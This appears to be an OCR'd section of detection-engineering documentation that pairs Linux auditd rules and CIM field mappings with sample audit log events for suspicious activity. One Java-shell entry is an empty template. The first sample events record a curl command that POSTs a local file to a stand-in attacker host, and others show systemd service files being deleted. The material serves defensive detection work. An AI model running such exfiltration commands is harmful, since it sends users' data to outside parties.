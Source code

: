 ```
type=EXECVE msg=audit(03/28/2023 13:00:53.022:4477) : argc=6 a0=curl a1=-X a2=POST a3=-d a4=@file_to_send a5=http://attacker.com/ 
type=PATH msg=audit(03/28/2023 13:00:53.022:4477) : item=0 name=/usr/bin/curl inode=100854595 dev=fd:00 mode=file,755 ouid=root ogid=root rdev=00:00 obj=system_u:object_r:bin_t:s0 objtype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=PROCTITLE msg=audit(03/28/2023 13:00:53.022:4477) : proctitle=curl -X POST -d @file_to_send http://attacker.com/ 
type=SYSCALL msg=audit(03/28/2023 13:00:41.337:4476) : arch=x86_64 syscall=execve success=yes exit=0 a0=0xf79940 a1=0xf79270 a2=0xf4bee0 a3=0x7ffc8d8e4da0 items=2 ppid=1448 pid=14447 auid=test-2 uid=test-2 gid=test-2 euid=test-2 suid=test-2 fsuid=test-2 egid=test-2 sgid=test-2 fsgid=test-2 tty=pts1 ses=9 comm=curl exe=/usr/bin/curl subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=susp_activity 
type=EXECVE msg=audit(03/28/2023 13:00:41.337:4476) : argc=5 a0=curl a1=-X a2=POST a3=-d a4=@ 
type=PATH msg=audit(03/28/2023 13:00:41.337:4476) : item=0 name=/usr/bin/curl inode=100854595 dev=fd:00 mode=file,755 ouid=root ogid=root rdev=00:00 obj=system_u:object_r:bin_t:s0 objtype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=PROCTITLE msg=audit(03/28/2023 13:00:41.337:4476) : proctitle=curl -X POST -d @ 
```  


### Linux Java Spawning Shell

Datamodel: 
Auditd config:   
CIM Mapping: 
Search:  
Limitations: Not applicable  
Sample events:    

```
 
```

### Linux Deletion Of Services

Auditd config: ["-w /etc/systemd -p wa -k servicefiles", "-w /usr/lib/systemd -p wa -k systemdfiles", "-w /bin/systemctl -p x -k systemd"]
CIM Mapping: action, file_path, file_name, dest, process_guid
Search: No change required.  
Limitations:  
Sample events:    

```
type=PATH msg=audit(03/28/2023 12:48:02.751:4276) : item=1 name=/etc/systemd/test4.service inode=616118 dev=fd:00 mode=file,644 ouid=root ogid=root rdev=00:00 obj=unconfined_u:object_r:etc_t:s0 objtype=DELETE cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=PATH msg=audit(03/28/2023 12:48:00.322:4260) : item=1 name=/etc/systemd/test3.service inode=616117 dev=fd:00 mode=file,644 ouid=root ogid=root rdev=00:00 obj=unconfined_u:object_r:etc_t:s0 objtype=DELETE cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=PATH msg=audit(03/28/2023 12:47:58.292:4252) : item=1 name=/etc/systemd/test2.service inode=616116 dev=fd:00 mode=file,644 ouid=root ogid=root rdev=00:00 obj=unconfined_u:object_r:etc_t:s0 objtype=DELETE cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=PATH msg=audit(03/28/2023 12:47:55.851:4244) : item=1 name=/etc/systemd/test1.service inode=616115 dev=fd:00 mode=file,644 ouid=root ogid=root rdev=00:00 obj=unconfined_u:object_r:etc_t:s0 objtype=DELETE cap_fp=none cap_fi=none cap_fe=0 cap_fver=0
```
